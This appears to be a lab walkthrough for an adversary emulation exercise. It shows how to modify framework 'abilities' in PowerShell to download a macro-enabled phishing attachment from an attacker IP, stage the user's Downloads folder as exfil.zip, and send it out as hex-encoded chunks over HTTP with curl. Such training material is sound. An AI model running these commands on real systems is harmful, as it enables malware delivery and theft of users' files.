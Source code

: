 ### **Modifying Existing Abilities**

Since the victim machine dose not have an internet connection, we mush host the malicious file on our attacking machine for the victim to download. 

View the ability `Download Macro-Enabled Phishing Attachment` 

<img width="1412" height="680" alt="image" src="https://github.com/user-attachments/assets/f81ae3dc-005a-4fd9-8035-4aeb5188bd89" />

<img width="1131" height="726" alt="image" src="https://github.com/user-attachments/assets/6b41bce7-8fbc-4089-a2cd-1aecda7ea3eb" />

And change the URL to our attack IP machine and the listening port. Then save the ability

```powershell
$url = 'http://10.10.118.21:8080/PhishingAttachment.xlsm'; [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12; Invoke-WebRequest -Uri $url -OutFile $env:TEMP\PhishingAttachment.xlsm
```

<img width="1203" height="636" alt="image" src="https://github.com/user-attachments/assets/1a2f2ddf-09d5-43ec-8802-c446a2e91044" />

The second ability to customise is  `Zip a Folder with PowerShell for Staging in Temp`

<img width="791" height="292" alt="image" src="https://github.com/user-attachments/assets/9ab6f002-8af3-43ba-ae9b-56ff2c77b7b0" />

change the commands to this:

```powershell
# Attack Command
Compress-Archive -Path $env:USERPROFILE\Downloads -DestinationPath $env:TEMP\exfil.zip -Force

# Cheanup command
Remove-Item -Path $env:TEMP\exfil.zip -ErrorAction Ignore

```

<img width="1081" height="459" alt="image" src="https://github.com/user-attachments/assets/f2fa8580-aaca-4838-8a5a-fc91b4a89d38" />

### Creating a Custom Ability

the ability `Exfiltrating Hex-Encoded Data Chunks over HTTP` does not exist, so we must create a new ability to complete the emulation activity. The goal is to execute a command that exfiltrates the collected data from the `Zip a Folder with PowerShell for Staging in Temp` ability.

To do this, we will use the following PowerShell commands to hex-encode the data, split it into chunks, and send it to the existing HTTP listener (running on port 8080) from the AttackBox instance. 

```powershell
$file="$env:TEMP\exfil.zip"; $destination="http://10.10.118.21:8080/"; $bytes=[System.IO.File]::ReadAllBytes($file); $hex=($bytes|ForEach-Object ToString X2) -join ''; $split=$hex -split '(\S{20})' -ne ''; ForEach ($line in $split) { curl.exe "$destination$line" } echo "Done exfiltrating the data. Check your listener."

```

<img width="1114" height="640" alt="image" src="https://github.com/user-attachments/assets/19bf86ac-601b-488d-9bfe-96f17640a8ad" />
